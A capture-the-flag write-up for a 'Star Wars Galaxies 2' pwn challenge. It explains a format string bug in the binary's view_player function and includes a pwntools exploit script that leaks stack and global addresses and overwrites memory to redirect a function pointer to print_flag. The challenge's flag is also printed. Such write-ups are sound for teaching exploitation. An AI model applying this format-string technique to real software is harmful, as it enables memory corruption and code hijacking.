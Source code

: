 # Star Wars Galaxies 2 (pwn)

## analysis
First, we have for choice:  
1. call `create_player` function
1. call `play` function
1. call `view_player` function
2. return

### create_player
In this function, the program asks name, id number, and player class. Then, put them into the structure in stack of main function. I renamed this structure as `player` and edited as below:  
![struct](img/struct.png)

Finally, the program puts a pointer of function to `func` member.

### play
The function of `func` would be called.

### view_player
The string value of `name` are used as arg0 of printf (Format String Bug). Then, `id` is compared with `0xfffffc18` and `boss` which is a global variable is compared with `0x61`. If the result of that comparison is true, the value of `func` would be modified to pointer to `print_flag`.  
![view_player](img/view_player.png)

## Exploit
We wanna store `0xfffffc18` in `id`. But the negative id would be reject in `create_player`.  
![negative](img/negative.png)
![negative2](img/negative2.png)

So the plan for the exploit is below (Almost of procedures are needed to use FSB):  
1. Leak the stack address of the structure.
2. Leak the `boss` address.
3. Overwrite `boss` value as `0x61`.
4. Input `0xfc18` as id value, and write `0xffff` to the address of `(char*)&id+2`. 
   1. Then, `func` value is modified to address of `print_flag` automatically. 
5. Call `play` function.

```
def create(name, id_):
    io.sendline("0")
    io.sendlineafter("name: ", name)
    io.sendlineafter("number: ", str(id_))
    io.sendlineafter("class: ", str(0))

def fsb(payload, id_=0):
    create(payload, id_)
    io.sendline("2")
    io.recv()


def exploit():
    create("%7$p,%25$p", 0)
    io.recv()
    io.sendline("2")
    leak = io.recvuntil(",")[0:-1]
    player = int(leak, 16)
    leak = io.recvline()[0:-1]
    boss = int(leak, 16)
    print("player: ", hex(player))
    print("boss: ", hex(boss))

    payload = fmtstr_payload(8, {boss:0x61}, numbwritten=0, write_size="short")
    fsb(payload)
    payload = fmtstr_payload(8, {player+0x82:0xffff}, numbwritten=0, write_size="short")
    fsb(payload, 0xfc18)
    io.sendline("1")
```
Flag: `shctf{l00k1ng_f0rw4rd_2_k0t0r_r3m4k3}`